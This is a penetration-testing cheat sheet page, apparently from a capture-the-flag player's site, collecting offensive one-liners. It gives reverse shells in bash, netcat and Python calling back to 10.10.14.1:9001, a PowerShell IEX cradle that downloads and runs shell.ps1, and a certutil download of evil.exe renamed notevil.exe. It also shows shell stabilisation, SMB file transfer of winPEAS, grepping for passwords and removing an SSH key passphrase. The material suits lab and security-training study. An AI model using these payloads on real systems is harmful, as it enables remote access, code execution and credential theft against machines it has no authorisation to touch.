 ```yaml
---
layout: tips
title: Tips and Tricks
---
```

Upgrading Simple Shells to Fully Interactive TTYs
=================================================
{% highlight python%}
python -c 'import pty; pty.spawn("/bin/bash")'
or
python3 -c 'import pty; pty.spawn("/bin/bash")'
{% endhighlight %}

Then press CTRL+Z to return to your local shell

{% highlight bash%}
stty -a or (stty size)
stty raw -echo
{% endhighlight %}

Note the number of rows and columns before pressing fg to return to the box

{% highlight bash%}
export SHELL=bash
export TERM=xterm256-color
stty rows number_of_row columns number_of_columns
{% endhighlight %}

Enjoy!
[Back to the top](#header)

Finding interesting locations
=============================
{% highlight bash%}
Writable files directories
find / -writable -type d 2>/dev/null
find / -perm -222 -type d 2>/dev/null
find / -perm -o w -type d 2>/dev/null
Executable folder
find / -perm -o x -type d 2>/dev/null
Writable and executable folders
find / \( -perm -o w -perm -o x \) -type d 2>/dev/null
By default on Linux:
/tmp
/tmp
/var/tmp
/dev/shm
/var/spool/vbox
/var/spool/samba
By default on Windows:
C:\Windows\Tasks 
C:\Windows\Temp 
C:\windows\tracing
C:\Windows\Registration\CRMLog
C:\Windows\System32\FxsTmp
C:\Windows\System32\com\dmp
C:\Windows\System32\Microsoft\Crypto\RSA\MachineKeys
C:\Windows\System32\spool\PRINTERS
C:\Windows\System32\spool\SERVERS
C:\Windows\System32\spool\drivers\color
C:\Windows\System32\Tasks\Microsoft\Windows\SyncCenter
C:\Windows\System32\Tasks_Migrated (after peforming a version upgrade of Windows 10)
C:\Windows\SysWOW64\FxsTmp
C:\Windows\SysWOW64\com\dmp
C:\Windows\SysWOW64\Tasks\Microsoft\Windows\SyncCenter
C:\Windows\SysWOW64\Tasks\Microsoft\Windows\PLA\System
{% endhighlight %}
[Back to the top](#header)

Convert to UTF-16LE
===================
{% highlight bash%}
root@kali:~# echo -n "IEX(New-Object Net.WebClient).downloadString('http://10.10.14.1/shell.ps1')" | xxd | head -3
00000000: 4945 5828 4e65 772d 4f62 6a65 6374 204e  IEX(New-Object N
00000010: 6574 2e57 6562 436c 6965 6e74 292e 646f  et.WebClient).do
00000020: 776e 6c6f 6164 5374 7269 6e67 2827 6874  wnloadString('ht
root@kali:~# echo -n "IEX(New-Object Net.WebClient).downloadString('http://10.10.14.1/shell.ps1')" | iconv -t UTF-16LE | xxd | head -3
00000000: 4900 4500 5800 2800 4e00 6500 7700 2d00  I.E.X.(.N.e.w.-.
00000010: 4f00 6200 6a00 6500 6300 7400 2000 4e00  O.b.j.e.c.t. .N.
00000020: 6500 7400 2e00 5700 6500 6200 4300 6c00  e.t...W.e.b.C.l.
{% endhighlight %}
[Back to the top](#header)

Setting up SMB server
=====================
{% highlight bash%}
root@kali:~/HTB/Json/smb# smbserver.py -username root -password password sharingiscaring $(pwd) -smb2support
Impacket v0.9.21-dev - Copyright 2019 SecureAuth Corporation

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
{% endhighlight %}

On the windows side:
{% highlight bash%}
$pass= “password” | ConverTo-SecureString -AsPlainText -Force #need to be typed
$pass #to verify it is created
$cred = New-Object System.Management.Automation.PsCredential('root',$pass)
$cred #to verify it is created
New-PSDrive -name share -root \\10.10.14.1\sharingiscaring -Credential $cred -PSProvider "filesystem"
cd share:
.\winPEAS.exe cmd fast > winPEAS.exe
{% endhighlight %}
[Back to the top](#header)

One Liners
==========
Dowloading file via certutil
{% highlight bash%}
cmd.exe /C certutil  -split -urlcache -f http://10.10.14.1/evil.exe c:\Users\Admin\Desktop\notevil.exe
{% endhighlight %}
Nmap scan ran through searchsploit
{% highlight bash%}
nmap -p- -sV -oX new.xml 10.10.14.1; searchsploit --nmap new.xml
{% endhighlight %}
List al started services
{% highlight bash%}
cmd.exe /c wmic service where started=true get name, startname
{% endhighlight %}
Wfuzz
{% highlight bash%}
wfuzz -w /wordlist/directory-medium.txt --hc 404 http://testing.com/test.php?FUZZ=1
--hc 404 = exclude 404 response  
--hh 777 = exclude response with 777char  
For more details: [wfuzz][link15] 
{% endhighlight %}
Find all file in a directory and executing a command.
{% highlight bash%}
find . -type f -exec cat {} \;
{% endhighlight %}
Easy transfert
{% highlight bash%}
base64 -w 0 filetotransfert
echo "iOgogIG1haW4oKQo=" | base64 -d > filename
{% endhighlight %}
Looking for creds in the directory
{% highlight bash%}
Grabbing full word
grep -rnw ./ -e 'password' -e 'password' -e 'passwd'
Grabbing partial word
grep -rn ./ -e 'passwd'
{% endhighlight %}
Search for flag
{% highlight bash%}
find / -type f \( -name "root.txt" -o -name "user.txt" \) 2>/dev/nul
{% endhighlight %}
Untar
{% highlight bash%}
tar -xvf
{% endhighlight %}
Removing password from ssh
{% highlight bash%}
openssl rsa -in ~/.ssh/id_rsa -out ~/.ssh/id_rsa_new
{% endhighlight %}
[Back to the top](#header)

Reverse shells
================
{% highlight bash%}
bash -i >& /dev/tcp/10.10.14.1/9001 0>&1
/bin/sh | nc 10.10.14.1 9001
rm -f /tmp/p; mknod /tmp/p p && nc 10.10.14.1 9001 0/tmp/p
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.32",9001));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
{% endhighlight %}
[Back to the top](#header)

Creating Custom Wordlists
=========================
This can be easily achieved using [exrex][link13]:
{% highlight bash%}
python3 exrex.py "(winter|summer|spring|fall|autumn)20[12][678]" -o wordlist
{% endhighlight %}
[Cewl][link14] can also be used to automaticly generate a wordlist by scrapping a website:
{% highlight bash%}
cewl -d 0 https://www.testing.com/
{% endhighlight %}
[Back to the top](#header)

Finding non standard binaries 
==============================
{% highlight bash%}
for i in $(ls /sbin/*); do echo $i; done
for i in $(ls /sbin/*); do dpkg --search $i; done
for i in $(ls /sbin/*); do dpkg --search $i 1>/dev/null; done
{% endhighlight %}

To investigate on different location in the $PATH
[Back to the top](#header)

Interesting Links:
==================
- [jwt.io][link1]: Decode and edit jwt token
- [cyberchef][link3]: Decode and encode in multiple format
- [stackedit.io][link4]: Markdown editor
- [devhints.io][link5]: Jekyll dev ops tricks
- [jekyllrb.com][link6]: Jekyll tuto
- [PayloadsAllTheThings][link7]: Payload for everything
- [Netsec][link8]: Idea for future tutorials
- [Pentestmonkey][link9]: Reverse Shell Cheat Sheet
- [W3schools][link10]: Testing new layout
- [Jekyll Tags][link12]: For future reference
[Back to the top](#header)

[link1]:https://jwt.io/  
[link2]:http://jekyllrb.com
[link3]:https://gchq.github.io/CyberChef/
[link4]:https://stackedit.io/app#
[link5]:https://devhints.io/jekyll 
[link6]:https://jekyllrb.com/
[link7]:https://github.com/swisskyrepo/PayloadsAllTheThings
[link8]:https://netsec.ws/?p=376
[link9]:http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet
[link10]:https://www.w3schools.com/howto/tryit.asp?filename=tryhow_css_subnav
[link11]:https://github.com/infodox/python-pty-shells
[link12]:https://longqian.me/2017/02/09/github-jekyll-tag/
[link13]:https://github.com/asciimoo/exrex
[link14]:https://digi.ninja/projects/cewl.php
[link15]:https://wfuzz.readthedocs.io/en/latest/user/getting.html#getting-help
